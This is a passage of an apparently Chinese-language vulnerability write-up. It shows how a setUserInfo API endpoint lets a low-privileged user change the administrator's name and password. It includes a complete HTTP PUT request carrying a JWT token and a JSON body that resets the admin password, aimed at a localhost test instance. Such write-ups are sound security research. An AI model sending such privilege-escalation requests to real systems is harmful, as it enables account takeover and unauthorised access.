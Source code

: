 随后提示我们，设置成功

![image-20211230144654682](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230144654682.png)

这是我们切换到管理员账号，查看是否被修改为test2

![image-20211230144727266](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230144727266.png)

可以看到管理员用户成功被修改

##### 2、SetUserInfo接口垂直越权无条件修改管理员密码

在Debug的时候发现，在越权设置个人信息的接口setUserInfo中不单单只能设置id, username, nickname,headimg，其实还可以传入password等参数

![image-20211230222713086](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230222713086.png)

比如我们构造一个请求，将ID为1的用户名称设置为admin，昵称设置为超级用户管理员 

![image-20211230222755083](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230222755083.png)

```http
PUT /api/user/setUserInfo HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
x-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJVVUlEIjoiZjkwNjRhMWItNzU2Yi00NTNjLTlkNDAtOWZlZmY5OWI2ZTUxIiwiSUQiOjMsIlVzZXJuYW1lIjoiVXpKdV9IeFNlY1RlYW0iLCJOaWNrTmFtZSI6IlV6SnVfSHhTZWNUZWFtIiwiQXV0aG9yaXR5SWQiOiIxMjM0IiwiQnVmZmVyVGltZSI6ODY0MDAsImV4cCI6MTY0MTQ1Nzc1NywiaXNzIjoicW1QbHVzIiwibmJmIjoxNjQwODUxOTU3fQ.rHCKW7c2kIsaCRKsgI1Nizu18dGKfsOH_m_dW59cY9U
x-user-id: 1
Content-Length: 91
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"id":1,
"username":"admin",
"nickName":"超级用户管理员",
"Password":"qwe@123"
}
```

此时管理员的密码已经被修改为了qwe@123，尝试登陆

![image-20211230222853109](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230222853109.png)

随后成功登录
